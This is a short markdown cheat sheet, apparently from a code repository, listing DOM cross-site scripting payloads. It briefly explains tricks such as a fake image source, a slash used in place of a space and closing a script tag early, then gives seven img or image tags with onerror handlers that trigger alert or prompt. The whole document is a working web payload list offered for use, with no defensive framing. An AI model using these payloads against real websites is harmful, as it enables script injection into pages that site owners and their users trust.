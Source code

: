 # Dom baseline
1.{=q}: fake image , that is no any url for image
2.{/}: clear space object
3.{</script>}: close the script, after run the payload

# Dom Xss payload(4)
<image/src/onerror=alert("hacked")>
<img/src/onerror=alert("hacked")>
<image src/onerror=alert("hacked")>
<img src/onerror=alert("hacked")>
<image src =q onerror=alert("hacked")>
<img src =q onerror=alert("hacked")>
</script><img src =q onerror=prompt(8)>

